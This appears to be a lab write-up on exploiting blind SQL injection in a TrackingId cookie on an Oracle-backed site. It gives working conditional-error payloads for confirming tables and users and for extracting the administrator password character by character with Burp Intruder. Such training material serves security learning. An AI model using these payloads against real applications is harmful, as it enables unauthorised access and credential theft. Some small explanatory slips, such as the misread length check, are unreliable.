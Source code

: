 The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

Vulnerable parameter - trackingId cookie
First step is to intercept and modify the request containing the TrackingId cookie.

# End goal:
+ Output the administrator password
+ Login as the administrator user

# Analysis:

## 1. Prove that parameter is vulnerable.
Using ' and '' respectively to verify how it would be if an merror message is received.

## 2. Figure out which type of database it is:
`TrackingId=xyz'||(SELECT '')||'`
-- mySQL syntax, a SQL syntas error received.

TrackingId=xyz'||(SELECT '' FROM dual)||'
-- Oracle syntax, must followed by 'FROM'. dual is a dummy tabel. 
-- No error received. So the target is probably using an Oracle database.

## 3. Confirm the users table exists in the database
`' || (select '' from users) ||'`
-> type 500 internal server error
--The users table may contain more than one row, and this will output an empty entry for each entry in the users table. So if the users table has five entries, this will be ouput in five different rows which may break our sever code webapp.

`' || (select '' from users where rownum=1) ||'`
-> 200 OK
-- The users table exists.

## 4. Confirm that the administrator user exists in the users database.
`' || (select '' from users where username='administrator') ||'`
-> If the administrator exists, it will return a 200 OK respond.
-> If the administrator does not exist, it will ignore the query and still return a 200 OK respond.

`' || (select CASE WHEN (1=1) then TO_CHAR(1/0) ELSE '' END from users where username='administrator') ||'`
-> If the administrator exists, it will go to the select part, since 1=1, it will do TO_CHAR(1/0), which will return a 500 internal server error.
-> If the administrator does not exist, it will ignore the query and still return a 200 OK respond.

## 5. Determine the length of password
`' || (select CASE WHEN (1=1) then TO_CHAR(1/0) ELSE '' END from users where username='administrator' and length(password)>1) ||'`
-> 200 OK: the password length is less than 1.
-> 500 error: the password length is longer than 1.
By using intruder in Burp, we can easily get the length of password is 20.

## 6. Determine the password
`' || (select CASE WHEN (1=1) then TO_CHAR(1/0) ELSE '' END from users where username='administrator' and substr(password,1,1)='a') ||'`
-> 200 OK: the first character of the password is not 'a'
-> 500 error: the first character of the password is 'a'
By repeating the process in intruder in Burp, we will get the full password.
